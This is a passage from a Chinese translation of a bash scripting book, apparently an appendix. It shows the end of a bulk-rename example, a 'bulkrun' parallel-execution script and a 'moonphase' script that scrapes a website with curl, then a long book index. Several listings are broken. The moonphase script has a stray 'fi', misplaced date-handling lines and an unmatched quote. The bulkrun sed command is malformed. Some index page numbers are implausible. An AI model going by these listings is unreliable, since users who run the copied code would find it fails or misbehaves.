Renamed file /Users/bperry/tmp/bulk/1_dave to /Users/bperry/tmp/bulk/1_brandon
Renamed file /Users/bperry/tmp/bulk/2_dave to /Users/bperry/tmp/bulk/2_brandon
Renamed file /Users/bperry/tmp/bulk/3_dave to /Users/bperry/tmp/bulk/3_brandon
Renamed file /Users/bperry/tmp/bulk/4_dave to /Users/bperry/tmp/bulk/4_brandon
$ ls "~/tmp/bulk"
1_brandon 2_brandon 3_brandon 4_brandon
```

Listing B-2：运行 `bulkrename` 脚本

你可以单独列出要重命名的文件，或者像我们在 ❶ 中那样在文件路径中使用星号（`*`）进行通配。文件被移动后，每个重命名后的文件及其新名称都会打印到屏幕上，以确保用户确认文件已按预期重命名。

### 脚本改进

有时将文件名中的文本替换为特殊字符串（例如今天的日期或时间戳）会很有用。这样你就能知道文件是什么时候重命名的，而无需在 `-r` 参数中手动指定今天的日期。你可以通过在脚本中添加特殊标记来实现这一点，这些标记在重命名文件时被替换。例如，你可以使用包含 `%d` 或 `%t` 的替换字符串，它们在文件重命名时分别被替换为今天的日期或时间戳。

这类特殊标记可以让备份目的的文件迁移变得更简单。你可以添加一个 `cron` 任务来移动某些文件，这样文件名中的动态标记将由脚本自动更新，而不需要在想要更改文件名日期时去更新 `cron` 任务。

## #103 在多处理器机器上批量运行命令

在本书首次出版时，除非你的职业是操作服务器或大型机，否则拥有多核或多处理器机器并不常见。如今，大多数笔记本电脑和台式机都有多个核心，允许计算机一次执行更多工作。但有时你想要运行的程序无法利用这种处理能力的提升，一次只能使用一个核心；为了使用更多核心，你必须并行运行该程序的多个实例。

假设你有一个将图像从一种格式转换为另一种格式的程序，并且有大量文件需要转换！如果由单个进程串行（一个接一个而不是并行）地转换每个文件，可能会花费很长时间。将文件分配给多个并行运行的进程会快得多。

Listing B-3 中的脚本详细介绍了如何针对你想要同时运行的特定进程数，将给定命令并行化。

> **注意** 如果你的计算机没有多个核心，或者由于其他原因（如硬盘访问瓶颈）导致程序运行缓慢，那么并行运行程序实例可能会对性能产生不利影响。请谨慎启动过多进程，因为这很容易使配置较低的系统崩溃。幸运的是，现在的 Raspberry Pi 也有多个核心了！

### 代码实现

```bash
#!/bin/bash
# bulkrun--遍历一个文件目录，运行一定数量的
# 并发进程以并行处理文件

printHelp()
{
    echo "Usage: $0 -p 3 -i inputDirectory/ -x \"command -to run/\""
    echo -e "\t-p The maximum number of processes to start concurrently"
    echo -e "\t-i The directory containing the files to run the command on"
    echo -e "\t-x The command to run on the chosen files"
    exit 1
}

while getopts "p:x:i:" opt
do
    case "$opt" in
        p ) procs="$OPTARG" ;;
        x ) command="$OPTARG" ;;
        i ) inputdir="$OPTARG" ;;
        ? ) printHelp ;;
    esac
done

if [[ -z $procs || -z $command || -z $inputdir ]]
then
    echo "Invalid arguments"
    printHelp
fi

total=$(ls $inputdir | wc -l)
files="$(ls -sr $inputdir)"

for k in $(seq 1 $procs $total)
do
    for i in $(seq 0 $procs)
    do
        if [[ $((i+k)) -gt $total ]]
        then
            wait
            exit 0
        fi

        file=$(echo "$files" | sed $i $(expr $i + $k)"q;d")
        echo "Running $command $inputdir/$file"
        $command "$inputdir/$file"&
    done
    wait
done
```

Listing B-3：`bulkrun` 脚本

### 工作原理

`bulkrun` 脚本接受三个参数：任何时间点运行的最大进程数 ❶、包含要处理文件的目录 ❷ 以及要运行的命令（后缀为要运行的文件名） ❸。在通过 `getopts` ❹ 处理用户提供的参数后，脚本检查用户是否提供了这三个参数。如果在处理用户参数后 `procs`、`command` 或 `inputdir` 变量中任何一个未定义，脚本将打印错误消息 ❺ 和帮助文本，然后退出。

一旦确定我们拥有管理并行进程运行所需的变量，脚本的实际工作就可以开始了。首先，脚本确定要处理的文件数量 ❶ 并保存文件列表以便后续使用。然后，脚本开始一个 `for` 循环，用于跟踪目前已处理的文件数量。该循环使用 `seq` 命令 ❷ 从 1 迭代到指定的文件总数，并以并行运行的进程数作为递增步长。

在这个循环内部是另一个 `for` 循环 ❸，用于跟踪在给定时间启动的进程数。这个内层循环同样使用 `seq` 命令从 0 迭代到指定的进程数，默认递增步长为 1。在内层循环的每次迭代中，从文件列表中提取一个新文件 ❹（使用 `sed` 从脚本开始时保存的文件列表中仅打印我们需要的文件），然后使用 `&` 符号在后台对该文件运行提供的命令。

当最大进程数已在后台启动后，`wait` 命令 ❺ 告知脚本休眠，直到后台所有命令处理完毕。`wait` 完成后，整个工作流重新开始，启动更多进程处理更多文件。这与我们在 `bestcompress` 脚本（第 113 页脚本 #34）中快速实现最佳压缩的方式类似。

### 运行脚本

使用 `bulkrun` 脚本非常简单。它接受的三个参数分别是：任何时间点运行的最大进程数、要处理的文件目录以及要在这些文件上运行的命令。例如，如果你想运行 ImageMagick 工具 `mogrify` 来并行调整一个目录中图像的大小，你可以运行类似 Listing B-4 中的命令。

### 运行结果

```bash
$ bulkrun -p 3 -i tmp/ -x "mogrify -resize 50%"
Running mogrify -resize 50% tmp/1024-2006_1011_093752.jpg
Running mogrify -resize 50% tmp/0669750a6-660e-11e6-80d1-001c42daa3a7.jpg
Running mogrify -resize 50% tmp/06970ce0-660e-11e6-8a04-001c42daa3a7.jpg
Running mogrify -resize 50% tmp/0696cf00-660e-11e6-8d38-001c42daa3a7.jpg
Running mogrify -resize 50% tmp/0696cf00-660e-11e6-8d38-001c42daa3a7.jpg
... snip ...
```

Listing B-4：运行 `bulkrun` 命令来并行化 ImageMagick 的 `mogrify` 命令

### 脚本改进

在命令内部能够指定文件名，或者使用类似于 `bulkrename` 脚本（第 346 页脚本 #102）中提到的标记（即在运行时用动态值替换的特殊字符串，例如 `%d` 被替换为当前日期，或者 `%t` 被替换为……）通常是非常有用的。

（被替换为时间戳）。更新脚本，使其在处理文件时能够将命令或文件名中的特殊标记替换为日期或时间戳之类的内容，将会非常有用。

另一个有用的技巧是使用 `time` 工具来跟踪执行所有处理过程所需的时间。如果你在处理一个真正海量的任务，那么让脚本打印出将要处理多少个文件、已经处理了多少个以及还剩多少个的统计信息将非常有价值。

## #104 查找月相

无论你是一个狼人、一名女巫，还是仅仅对阴历感兴趣，追踪月相并了解盈亏（waxing, waning）甚至凸月（gibbous moons，这与长臂猿 gibbons 无关）都会很有帮助且具有教育意义。

为了增加复杂性，月球的轨道周期为 27.32 天，且其相位实际上取决于你在地球上的位置。尽管如此，给定一个特定日期，仍然可以计算出月相。

但既然网上已经有大量网站可以计算过去、现在或未来任何给定日期的月相，为什么还要费这个劲呢？对于清单 B-5 中的脚本，我们将利用 Google 在搜索当前月相时使用的同一个网站：<http://www.moongiant.com/>。

### 代码

```bash
#!/bin/bash

# moonphase--报告今天或指定日期的月相（实际上是
# 照明百分比）

# Moongiant.com 查询格式：
# http://www.moongiant.com/phase/MM/DD/YYYY

# 如果未指定日期，则使用 "today" 作为特殊值。

if [ $# -eq 0 ]; then
    thedate="today"
else
    # 指定了日期。让我们检查它是否处于正确的格式。
    mon=$(echo $1 | cut -d/ -f1)
    day=$(echo $1 | cut -d/ -f2)
    year=$(echo $1 | cut -d/ -f3)
fi

if [ -z "$year" -o -z "$day" ]; then    # 长度为零？
    echo "Error: valid date format is MM/DD/YYYY"
    exit 1
fi

thedate="$1" # 没有错误检查 = 危险
fi

url="http://www.moongiant.com/phase/$thedate"
pattern="Illumination:"

phase=$( curl -s "$url" | grep "$pattern" | tr ',' '\n' | grep "$pattern" | sed 's/[^0-9]//g')"

# 站点输出格式为 "Illumination: <span>NN%\n</span>"

if [ "$thedate" = "today" ]; then
    echo "Today the moon is ${phase}% illuminated."
else
    echo "On $thedate the moon = ${phase}% illuminated."
fi

exit 0
```

清单 B-5：`moonphase` 脚本

### 工作原理

与其他从网络查询中抓取数值的脚本一样，`moonphase` 脚本的核心在于识别不同查询 URL 的格式，并从生成的 HTML 数据流中提取特定值。

对该网站的分析表明，有两种类型的 URL：一种指定当前日期，结构简单地为 `"phase/today"`；另一种指定过去或未来的日期，格式为 `MM/DD/YYYY`，例如 `"phase/08/03/2017"`。

以正确的格式指定日期，你就可以获得该日期的月相。但我们不能在没有任何错误检查的情况下直接将日期附加到网站域名上，因此脚本在 ❷ 处将用户输入拆分为三个字段——月、日、年——然后确保日和年的值不为零。还可以进行更多的错误检查，我们将在“改造脚本”部分中探讨。

任何抓取脚本最棘手的部分都是正确识别允许你提取所需数据的模式。在 `moonphase` 脚本中，这在 ❸ 处指定。最长且最复杂的行在 ❹ 处，脚本从 moongiant.com 网站获取页面，然后使用一系列 `grep` 和 `sed` 命令来提取仅匹配指定模式的行。

之后，只需使用最后的 `if/then/else` 语句显示今天或指定日期的照明水平即可。

### 运行脚本

如果不带参数，`moonphase` 脚本将显示当前日期的月球照明百分比。通过输入 `MM/DD/YYYY` 指定过去或未来的任何日期，如清单 B-6 所示。

### 运行结果

```bash
$ moonphase 08/03/2121
On 08/03/2121 the moon = 74% illuminated.

$ moonphase
Today the moon is 100% illuminated.

$ moonphase 12/12/1941
On 12/12/1941 the moon = 43% illuminated.
```

清单 B-6：运行 `moonphase` 脚本

> **注意** 1941 年 12 月 12 日是经典环球恐怖电影《狼人》（The Wolf Man）首次在电影院上映的日子。而那天并不是满月。真是不可思议！

### 改造脚本

从内部角度来看，该脚本可以通过更好的错误检查序列，或者仅仅通过利用第 17 页上的脚本 #3 来大大改进。这将允许用户以更多格式指定日期。一个改进方向是将末尾的 `if/then/else` 语句替换为一个函数，将照明水平转换为更常见的月相词组，如“亏月”、“盈月”和“凸月”。NASA 有一个定义不同相位的网页可以使用：<http://starchild.gsfc.nasa.gov/docs/StarChild/solar_system_level2/moonlight.html>。

## 索引

### 符号与数字

- `$\\ll$` 符号，35
- `*`（星号）
  - 在 `cron` 条目中，157
  - 用于文件通配，306，346–348
- `^` 运算符，87
- `${ }` 符号，57，66
- `${ ( ) }` 符号，34–36
- `.`（点）
  - `grep` 命令的转义，70
  - 用于隐藏文件，12
  - 用于 `source` 脚本，43
- “404 Not Found” 错误
  - 防止，220
- `2001:太空漫游`（电影），2014

### A

- `-a`（逻辑与），25–26
- `access_log` 文件，235–239
  - 从 `error_log` 分离，243
- Acey Deucey，290–297
- `addagenda` 脚本，90–95
- `adduser` 脚本，131–133
- 管理员账户，用于 `apm`，226，228
- `agenda` 脚本，90–95
- `album` 脚本，211–213
- 别名（aliases），104
- alphanumeric 输入，验证，15–17
- `alternatives` 系统（Debian），104
- AND，逻辑（`\\wedge`），25–26
- ANSI 颜色序列，40–42
  - 用于区域高亮，107–109
- Apache Web 服务器
  - `access_log` 文件，235–239
  - `error_log` 文件，242–246
  - 安装，201
  - 密码管理，223–229
- `apm-footer.html`，227–228
- `apm` 脚本，223–229
- `apt` 包管理器，安装
  - 使用，201
- 存档（archive）
  - 文件，通过邮件发送或复制到云存储，166
  - 远程，用于备份，246–249
    - 已删除的文件，58–62
- `archwizard` 脚本，169–171
- 区号，查询，183–185
- `askvalue()` 函数，148–149
- 星号（`*`），在 `cron` 条目中，157
- Atkin, steve of，287
- 自动屏幕截图，263–266
- `awk` 命令，98，181
  - 用于磁盘容量，125–126
  - 用于显示随机文本，213–214
  - 脚本通用格式，189
  - `printf` 命令，33–34

### B

- 备份
  - 自动备份，基于 `sftp`，106，229–233
  - 目录备份，169–171


- 文件在删除时备份，55–58
- 管理，166–169

- `.bash_profile`（登录脚本），4–5，12
- `.bashrc`（登录脚本），4–5，12
- `bash` shell，1–2
  - 自定义，4
  - 在 Windows 上安装，341–344
  - 运行命令，3–4
  - 运行 shell 脚本，5–7
- 批处理文件，175
- `bc` 程序，包装器，34–36，82–85
- `bestcompress` 脚本，113–115
- 比特币（Bitcoin），地址信息检索，192–194
- 空短语，与零字符引用短语的区别，17
- 粗体，41–42
- 图像边框，318–322
- `brew` 包管理器，安装，329
- 损坏的内部链接，识别，217–220
- bug，见调试（debugging）
- `bulkrename` 脚本，346–348
- `bulkrun` 脚本，348–351
- `bzip2`，109，114

### C

- `calc` 脚本，82–85
- 计算
  - 货币价值，190–192
  - 贷款还款，87–90
- 计算器
  - 浮点数，34–36
  - 交互式，82–85
- `calendar` 程序，90–95
- 州首府测验，282–284
- 回车符，使用 `tr` 命令替换为换行符，262
- 区分大小写，Unix，72
- `case` 语句，作为正则表达式，72
- `cat` 命令
  - 替代方案，101–103
  - 压缩文件，109–112
  - `-n` 标志，98–99
  - OS X 文件，262
  - 将文件内容打印到屏幕，4
  - 使用其读取用户数据，81
- 摄氏度单位，在华氏度或开尔文之间转换，85–87
- CentOS，`cgi-bin` 目录，201
- CGI（通用网关接口）脚本，199
  - 运行，201
  - 查看环境，202–203
- `cgrep` 脚本，107–109
- 修改模式（`chmod`）命令，7，57
- 云存储，299
  - 从照片流创建幻灯片，304–306
  - 将存档文件通过邮件发送或复制到，166
  - 保持 Dropbox 运行，300–301
  - 同步 Dropbox，301–304
  - 使用 Google Drive 同步文件，307–309
- 颜色序列，ANSI，40–42
  - 用于区域高亮，107–109
- 命令行界面，shell 作为，2
- 命令
  - PATH 中的命令计数，51–52
  - 运行，3–4
  - 批量运行，348–351
- 通用网关接口，见 CGI（通用网关接口）脚本
- 通用日志格式（Common Log Format），235
- `composite` 工具，317
- 压缩文件，109–112，113–115
- `convertamp` 脚本，85–87
- `convertcurrency` 脚本，190–192
- 协调世界时（UTC），73
- 版权
  - `bc` 程序中的页眉，静默处理，36
  - 问题，207
- `cron`
  - `archivider` 在其中，171
  - 确保任务运行，159–162
  - 使用其调度任务，154
- `crontab`
  - 用于 `netstat` 日志生成的条目，254
  - 用于与 Google Drive 同步的办公文档，308
  - 验证用户条目，154–159
- `curl` 工具，173–174，182–183
- 货币，计算数值，190–192
- `cut` 命令，19，89

### D

- 守护进程（daemons），119，301
- Darwin（Unix 核心），261
- 数据库
  - 检查大小，70
  - 使用 `locate` 搜索，68–71
  - 安全搜索，127–131
- 数据存储，见云存储；磁盘使用（disk usage）

日期格式

- 规范化，17–20
- 验证，29–32
- 操作系统间的差异，95，149

日期

- 计算两日期之间天数，332–335
- 计算直到指定日期天数，335–339
- 查找过去特定日期的星期，330–332
- 查找月相，351–353
- 系统设置，148–150

`date` 工具，95，329–330，334  
`dayinpast` 脚本，330–332  
`daysago` 脚本，332–335  
`daysuntil` 脚本，335–339  

Debian，其 `cgi-bin` 目录，201

调试

- Shell 脚本，45–49
- 使用 Shell 脚本进行调试，199

小数点分隔符，22–23  
删除的文件，恢复，55  
`deleted_files` 归档，55，57  

显示内容，60，62

- 按时间戳剪枝，62

`deleteruse` 脚本，136–138  
删除用户账户，136–138  
开发文件夹，创建，4–5  

`df` 工具

- 提高输出的可读性，123–125
- 磁盘使用情况报告，125

骰子，287–290  
`diff` 命令，196–197  

目录

- Apache 对密码保护的支持，223
- 备份，169–171
- Bash 搜索目录，3
- 显示目录内容，65–68
- 将名称设为终端窗口标题，266–267
- 用于缩略图，322

`DIR` 脚本，71–73  
禁用用户账户，135–136  
`diskhogs` 脚本，121–123  
`diskspace` 脚本，125–127  

磁盘使用情况

- 分析，119–120
- 可用空间，125–127
- 管理配额，121–123

`docron` 脚本，159–162  
域名，从网站请求列表，179  
点（`.`）符号，参见“`.`（period）”  
双引号，嵌套，61  
使用 FTP 下载文件，174–177  

Dropbox

- 保持运行，300–301
- 同步，301–304

`du` 命令，119

### E

`echo` 命令，3

- `-n` 标志，10，33–34

`echon` 命令，33–34  

电子邮件

- 将归档文件发送至云存储，166
- 磁盘空间消耗警告，121–123
- 将网页作为邮件发送，209–211

模拟

- 使用 `quota` 模拟 GNU 风格标志，103–104
- MS-DOS 环境，71–73
- 传输编码字符串，201

文件结束符（EOF），意外出现，47  
行尾字符，在 OS X 文件中，262–263  
`env` 命令，202  
环境变量，11，47。另见 PATH 环境变量  
EOF（文件结束符），意外出现，47  
Unix 时间戳（epoch time），255，330  
埃拉托斯特尼，其筛法，287  
`error_log` 文件，235，242–246  

错误信息

- “404 Not Found”，防止出现，220
- 来自 `date --version`，329
- File does not exist（文件不存在），243
- 来自 ImageMagick，321
- permission denied（权限被拒绝），129
- unable to read font（无法读取字体），318

`esc` 变量，42  
`/etc/crontab` 文件，160  
`/etc/daily` 目录，160，161  
`/etc/group` 文件，131  
`/etc/monthly` 目录，160，161  
`/etc/passwd` 文件，119，131  

事件

- 日历，跟踪，90–95
- 网页，记录，203–206

`exec` 调用，105  
可执行文件，创建，6–7  
EXIF（可交换图像文件格式）

- 信息，删除，524

EXIT（`$SIGEXIT`）信号，109  
`exit 0` 命令，43  
可扩展标记语言（XML），174  
外部链接，损坏报告，220–222  
提取 URL，从网页中，177–180

### F

- 华氏度单位，与摄氏度或开尔文之间的转换，85–87
- `file` 命令，314
- 文件不存在错误，243
- 文件扩展名，用于脚本，5
- `filelock` 脚本，37–40
- 文件名，用户特定数据库，129
- 文件权限，用于执行脚本，6–7
- 文件
  - 根据需要备份，55–58
  - 压缩文件，109–112，113–115
  - 显示
    - 带有附加信息，101–103
    - 带有行号，98–99
    - 通过打印到控制台屏幕，4
  - 使用 `sftp` 下载，174–177
  - 通过文件名查找，68–71
    - 使用 `identify` 工具获取信息，314–315
  - 锁定，37–40
  - 记录删除操作，62–65
  - 同名多个文件，57
  - 批量重命名，346–348
  - 源码导入（sourcing），42
  - 存储，见云存储
  - 使用 `sftp` 同步，229–233
  - 上传到 `sftp` 服务器，177
- 文件传输协议（FTP），见 `sftp`（文件传输协议）
- FileZilla，174
- `find` 命令，165
  - `-xdev` 参数，120
- 查找
  - 通过文件名查找文件，68–71
  - 在 PATH 中查找程序，11–15
  - 特定命令，3
- `findsuid` 脚本，146–148
- `fixguest` 脚本，141–143
- 标志（flags）
  - 命令默认标志，79
  - GNU 风格，使用 `quota` 模拟，103–104
  - 浮点数
    - 计算，84
    - 计算器，33–36
    - 输入验证，26–29
  - `fmt` 命令，53，102
  - 标志的局限性，99
- `formatdir` 脚本，65–68
  - 格式化长行，53–55
- `form` 标签（HTML），204
- `fquota` 脚本，119–120
- `frameit` 脚本，318–322
  - 为图像加框，318–322
- FreeBSD
  - 命令计数，52
  - `ps` 输出，150
- FTP（文件传输协议）
  - 用于下载文件，174–177
  - 局限性，229
  - 上传到服务器，177
- `ftpget` 脚本，174–177
- `ftp` 程序，安全版本，104–106
- 模糊匹配，284

### G

- 游戏，273
  - Acey Deucey，290–297
  - 骰子，287–290
  - 猜词游戏（hangman），277–281
  - 数字猜谜游戏，45–49
    - 素数，285–287
    - 州首府测验，282–284
    - 单词重组，275–277
- `gedit`，5
- `geoloc` 脚本，325–327
- `getbtccaddr` 脚本，192–194
- `getdope` 脚本，209–211
- `gethubuser` 脚本，180–182
- `getlinks` 脚本，178–180
- `getopts` 命令，39，54，151
- `getstats` 脚本，250–251
- GitHub，获取用户信息，180–182
- 通配符（globbing）
  - 用于批量重命名文件，346–346
  - 禁用，306
- GMT（格林威治标准时间），73
- GNU 风格标志，使用 `quota` 模拟，103–104
- Google
  - Chrome 操作系统，299
  - 货币转换器，190–192
  - Drive，同步文件，307–309
  - GPS 地理定位，解析信息，325–327
- Grab 工具，263
- 图形，见 ImageMagick 工具；图像；照片
- `grep` 命令，修复，107–109
  - 压缩文件，以及，109–112
- `gsync` 子目录，308
- Guenther, Philip，37
- 访客用户，清理其后遗留，141–143
- `gzip`，109，114

### H

猜词游戏（hangman），277–281  
`hangman` 脚本，277–281  
硬链接，111  
Here Document，35，54  
隐藏文件，使用点（`.`），12  
Holbrook, Bill，207  
家目录，识别，5  
`.htaccess` 数据文件，223，226，228  

HTML

- 用于格式化在线相册，212
- 使用 `lynx` 工具解析，177

`.htpasswd` 文件，233，226，228  
`HTTP_USER_AGENT` 字符串，用于 Safari 浏览器，202–203  
HUP（`SIGHUP`）挂断信号，135

### I

iCloud（Apple），299，325  
`identify` 工具，314–315，325–327  
IEEE（电气与电子工程师协会），10  
IFS（输入字段分隔符），226  
ImageMagick 工具，213，313。另见图像

- `convert` 工具
  - 用于动画 GIF，265
  - 用于边框，308–312
- `display` 命令及 ImageMagick，304–306
- 来自 ImageMagick 的错误信息，321–322
- GPS 地理定位解析，325–327
- `identify` 工具，314–315，325–327
- 图像。另见 ImageMagick 工具；照片
- EXIF 信息，剥离，324
- 加框，318–322
- 从其他网站引入，207–208
- 引用错误报告，220
- 创建缩放版本，213，306，322–325
- 尺寸分析器，314–315
- 水印，316–318

`imagesize` 脚本，314–315  
IMDb（互联网电影数据库），访问电影信息，187–190  
`#include` 特性，Shell 的替代方案，42  
增量备份，166–169  
`initializeANSI` 脚本函数，40–42  

输入

- 从中提取单行，61
- 获取并传递给函数，13
- 验证
  - 字母数字，15–17
  - 浮点数，26–29
  - 整数，23–26
  - 电话号码，17

输入字段分隔符（IFS），226  
电气与电子工程师协会（IEEE），10  
整数输入，验证，23–26  
内部链接，识别损坏链接，217–220  
互联网电影数据库（IMDb），访问电影信息，187–190  

互联网工具。另见网页

- Apache `access_log`，235–239
- Apache `error_log`，242–246
- 区号查询，183–185
- 比特币地址信息检索，192–194
- 货币价值计算，190–192
- 从网页提取 URL，177–180
- 使用 FTP 下载文件，174–177
- GitHub 用户信息，180–182
- 识别损坏的内部链接，217–220
- IMDb，从中访问电影信息，187–190
- 记录网页事件，203–206
- 监控网络状态，249–255
- 相册创建，211–213
- 随机文本显示，213–215
- 可脚本化，173
- 搜索引擎流量，239–242
- 跟踪网页更改，194–197
- 图像水印，316–318
- 天气，185–186
- 邮政编码查询，182–183
- `sprime` 脚本，285–287
- 斜体，41–42
- iTunes 库，OS X 中的摘要列表，267–269

### J

JPEG 文件，查找尺寸，314–315

### K

- 开尔文单位，与华氏度或摄氏度之间的转换，85–87
- `kevin-and-kill` 脚本，207–208
- 关键词，在搜索引擎中的使用，239
- KILL（`SIGKILL`）信号，135
- `killall` 脚本，150–154
- 按名称终止进程，150–154

### L

- 大数字，美观呈现，20–23
- 前导斜杠，13
- 闰年，29–32，330
- 左根模式（left-rooting pattern），153
- 长度，在 `bc` 中，36

库

- iTunes，OS X 中的摘要列表，267–269
- 脚本库，构建，42–45

`library-text` 脚本，43–45  
换行符，用于 Unix，262  

文本行

- 文件上下文，使用 `grep` 显示，107–109
- 显示行号，98–99
- 行尾字符，262–263
- 从输入中提取，61
- 格式化长行，53–55
- 合并成对行，67
- 仅对长行折行，99–101

链接

- 识别损坏的内部链接，217–220
- 符号链接与硬链接，111

Linux

- `netstat` 命令输出格式，250
- `ps` 命令输出格式，151
- 系统，设计作为服务器运行，159
- `loancalc` 脚本，87–90
- 贷款还款，计算，87–90
- 本地权限，FTP 保留，231
- `.localedef` 文件，每个用户独立，127
- `locate` 脚本，69

定位，见查找


# L

- `lockfile` 程序，37, 137–138
- 文件锁定，37–40
- `log-duckduckgo-search` 脚本，203–206

## 日志文件

- Apache `access_log`，235–239
- Apache `error_log`，242–246
- 按顺序显示，99
- `netperf` 脚本用于内容分析，255
- 所有权权限，64–65
- 轮转，162–166
- 为 Web 服务器进行拆分，243

## 记录 (logging)

- 文件删除，62–65
- 网页事件，203–206
- 逻辑与 (`-a`)，25–26
- `login` 脚本，4–5, 12
- `logrm` 脚本，62–65
- `long-words.txt` 文件，275–277

## 查询

- 区号，183–185
- 邮政编码，182–183
- `ls` 命令, 61–65
    - 用于显示备份文件, 169
    - 按时间顺序排列文件列表, 58
- `lynx` 工具, 173–174
    - 使用其提取 URL, 177–180
    - 使用其识别损坏的内部链接, 218–220

# M

- MacKenzie, David, 329
- 远程邮箱, 作为归档, 247
- `MAILER` 环境变量, 11
- Mailinator, 209
- Microsoft
    - OneDrive, 299, 304
    - Windows, 其上的 `bash`, 341–344
- `mktemp` 脚本, 68–71
- `mkslocked` 脚本, 127–128
- `mogrify` 工具, 322
- `monthToName()` 函数, 17–20
- 月相, 按日期查询, 351–353
- `moonphase` 脚本, 351–353
- `more` 工具, 81, 98
    - 以及压缩文件, 109–112
- `movedata` 脚本, 187–190
- 电影, 来自 IMDb（互联网电影数据库）的信息, 187–190
- MS-DOS 环境, 模拟, 71–73
- 多处理器机器, 在其上批量运行命令, 348–351
- `mysftp` 脚本, 104–106

# N

- 名称
    - 通过名称查找文件, 68–71
    - 通过名称终止进程, 150–154
    - 通过名称重命名进程, 255–259
- `ncal` 程序, 330–331
- nCFTP, 174
- `neqn` shell 脚本, 5–6
    - 嵌套双引号, 61
- `netperf` 脚本, 251–253, 255
- `netstat` 命令, 249–250, 253
- `netstat` 日志文件, 253–254
- 网络, 状态监控, 249–255
- 网络文件系统 (NFS), 以及锁文件, 40
- 网络时间协议 (NTP), 150
- `newdf` 脚本, 123–125
- 换行符
    - 导致意外的文件结束, 47
    - `echo` 与换行符, 10, 33–34
    - 使用 `tr` 命令将回车符替换为换行符, 262
- `newquota` 脚本, 103–104
- `newnm` 脚本, 55–58
- NFS (网络文件系统), 以及锁文件, 40
- `nicenumber` 脚本, 20–23, 89, 236
- `nroff` 命令, 55
- NTP (网络时间协议), 150
- 数字猜谜游戏, 45–46
- `numberlines` 脚本, 98–99
- 数字。另见 calculations
    - 浮点数
    - 整数, 计算输入, 23–26
    - 大数字, 美观地呈现, 20–23
    - 数字猜谜游戏, 45–46
    - 素数, 285–287
    - 科学计数法, 28–29

# O

- OneDrive (Microsoft), 299, 304
- `open2` 脚本, 269–271
- 打开应用程序, 262
- `open` 命令, 在 OSX 9 中修复, 269–271
- OpenOffice 文档, 文件夹内的页数统计, 7–8
- 操作系统。另见 各个操作系统
    - MS-DOS, 模拟, 71–73
    - 可用命令数量, 52
    - OSX
        - 自动屏幕截图, 263–266
        - 命令数量, 52
        - 日期格式, 149
        - 修复行尾符, 262–263
        - 终止其上所有 `csmount` 进程, 153
        - `open` 命令, 269–271
        - `ps` 输出, 151
        - iTunes 库的摘要列表, 267–269
        - Terminal 应用, 2
            - 动态设置标题, 266–267
    - 操作系统用户账户数据库, 131
    - 语音合成系统, 309–312
- 输出设备, 重定向, 221–222

# P

- `PAGER` 环境变量, 11
- 分页, 81
- 成对行, 合并, 67
- 回文检查器, 274
- 解析 HTML, 使用 `lynx` 工具, 177
- 密码保护账户
    - 以及 FTP, 177
- 密码
    - 用于 Apache, 223–229
    - 为其更改用户, 135
    - 用于加密的 `htpasswd` 程序, 226
- `PATH` 环境变量, 3
    - 检查有效目录, 139
    - 配置, 4–5
    - 其中命令的数量, 51–52
    - 在其中查找程序, 11–15
- `pax` 命令, 168
- 点号 (`.` )
    - 为 `grep` 命令转义, 70
    - 用于隐藏文件, 12
    - 用于 `source` 脚本, 43
- 权限
    - 默认, 为新创建的文件, 57
    - FTP 保留本地权限, 231
    - 日志文件所有权, 64–65
- 月相, 按日期查询, 351–353
- 电话号码, 验证, 17
- 照片, 另见 images
    - 从图像存储创建幻灯片, 304–306
    - 创建基于 Web 的相册, 211–213
- `pickCard` 函数, 291, 295
- 管道, 与 `sftp` 程序配合使用, 231
- 可移植 shell 脚本, 7
- POSIX (可移植操作系统接口), 10–11
- Preview 工具, 263
- 素数, 285–287
- 任务优先级
    - 更改, 255–259
    - 用于时间关键型程序, 258
- 进程
    - 按名称终止, 150–154
    - 按名称更改优先级 (renicing), 255–259
    - 并行运行, 348–351
- `profile` (登录脚本), 4–5, 12
- 提示符, 用于 `bash` shell, 4
- 协议, 支持协议的信息, 249–250
- `ps` 命令, 150–151, 300

# Q

- 来自 Web 客户端的查询, 202
- `QUERY_STRING` 变量, 205
- 配额, 使用其模拟 GNU 风格标志, 103–104
- 配额分析, 磁盘使用情况, 119–120

# R

- `$RANDOM` 环境变量, 47
- 随机数, 生成, 46–47, 287–290
- `randomquote` 脚本, 213–215, 276
- 随机文本, 显示, 213–215
- `read` 命令, 81
- `realmr` 命令, 56
- 记录, 82
- Red Hat Linux, `ps` 输出, 151
- 区域, 检查时间, 76
- 区域高亮, ANSI 颜色
    - 相关序列, 107–109
- 正则表达式, 70, 86
    - 作为 `case` 语句条件测试, 72
    - 用于变量切片, 14
- `remember` 脚本, 80–82
- `remindme` 脚本, 80–82
- 远程归档, 用于备份, 246–249
- `remotebackup` 脚本, 246–249
- 远程主机, 提示输入, 104–106
- 已删除文件归档, 58–62
- 批量重命名文件, 346–348
- `renice` 命令, 153–154, 255
- `renicename` 脚本, 255–259
- 重置序列, 用于 ANSI 颜色
    - 序列, 41
- 恢复删除的文件, 55
- 重传百分比, 用于网络流量, 254
- 返回码, 来自 `awk`, 243
- `rev` 命令, 274, 317
- 右根模式 (right-rooting pattern), 153
- `rm` 命令, 55
- `rolldice` 脚本, 287–290
- `root` 用户, 以其运行脚本, 69
- `rot13`, 274
- `rotatelogs` 脚本, 162–166
- 运行
    - 命令, 3–4
    - 批量命令, 348–351
    - 脚本, 以 `root` 用户运行, 69
- RVM (Ruby 版本管理器), 4

# S

- Safari 浏览器, 其 `HTTP_USER_AGENT` 字符串, 202, 203
- `saycit` 网站, 310–312
- say it 工具 (OS X), 309–312
- 精度 (scale), 在 `bc` 中, 36
- 调度任务, 使用 `cron`, 154
- 科学计数法, 28–29
- 屏幕截图, 自动, 263–266
- `screencapture` 脚本, 263, 264–266
- `scriptbc` 脚本, 34–36, 82–85, 194, 236
    - 用于转换 GPS 数据, 327
    - 脚本, KornShell 脚本
- `scripts` 目录, 4–5, 12
- 搜索引擎流量, 239–242
- `searchinfo` 脚本, 240–241
- 安全 `locate`, 实现, 127–131
- 安全性
    - 对于 `apm` 脚本, 229
    - CGI 脚本与安全性, 199
    - 对于图像, 316–318
    - Web 表单收集电子邮件地址的风险, 200–201
- 以 `root` 身份运行脚本及其安全性, 69
- `setuid` 及其安全性, 64, 146
- `sed` 语句, 102, 178, 253
    - 替换, 86
    - 基于其进行转换, 16
- 信号量 (semaphore), 37
- `sendmail`, 200–201
- 服务器, 旨在运行为用户的 Linux 系统, 159
- 服务器端包含 (SSI) 功能, 属于
    - Web 服务器, 213–215
